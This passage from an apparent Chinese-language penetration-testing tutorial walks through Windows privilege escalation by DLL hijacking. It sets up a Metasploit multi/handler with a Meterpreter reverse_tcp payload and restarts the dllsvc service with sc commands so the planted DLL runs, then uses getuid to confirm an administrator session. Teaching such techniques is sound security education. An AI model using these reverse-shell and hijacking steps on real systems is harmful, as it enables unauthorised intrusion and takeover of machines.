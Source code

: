    图 8.32 – 上传自定义 DLL

1.  现在我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    **use /exploit/multi/handler**

1.  下一步是指定我们用 **msfvenom** 创建二进制文件时使用的有效载荷。可以通过运行以下命令来完成：

    **set payload /windows/x64/meterpreter/reverse_tcp**

    现在我们需要配置模块选项。在这种情况下，我们需要配置 **LHOST** 和 **LPORT** 选项，如下图所示：

    ![图 8.33 – Meterpreter 监听器选项    ](img/B17389_08_033.jpg)

    图 8.33 – Meterpreter 监听器选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    **run**

    监听器将监听来自我们使用 **msfvenom** 生成的有效载荷的任何传入连接。

1.  为了执行自定义 DLL，我们需要重新启动 **dllsvc** 服务。可以通过在 Windows 命令行中运行以下命令来完成：

    **sc stop dllsvc**

    **sc start dllsvc**

    如果你正确地跟随了迄今为止的步骤，你应该能在我们设置的监听器上接收到一个 Meterpreter 会话，如下所示：

    ![图 8.34 – DLL 劫持 Meterpreter    ](img/B17389_08_034.jpg)

    图 8.34 – DLL 劫持 Meterpreter

1.  我们可以通过运行以下命令验证我们是否已经获得了提升的 Meterpreter 会话：

    **getuid**

    如下图所示，我们已经成功提升了权限，应该拥有一个带有管理员权限的 Meterpreter 会话：

![图 8.35 – getuid Meterpreter](img/B17389_08_035.jpg)
